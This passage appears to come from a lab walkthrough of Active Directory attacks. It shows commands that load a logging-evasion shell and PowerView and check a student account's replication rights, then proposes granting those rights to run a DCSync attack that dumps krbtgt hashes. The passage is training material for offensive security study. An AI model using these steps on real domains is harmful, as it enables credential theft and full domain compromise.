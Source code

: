 `C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student422"}`:
```
```
❌

3. **If no, add the replication rights for the `student422` and execute the DCSync attack to pull hashes of the `krbtgt` user**

If the `student422` does not have replication rights, let's add the rights.
Start a process as domain administrator by running the below command from an elevated command prompt.

![Run as administrator](./assets/screenshots/learning_objectives_run_as_administrator.png)

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```
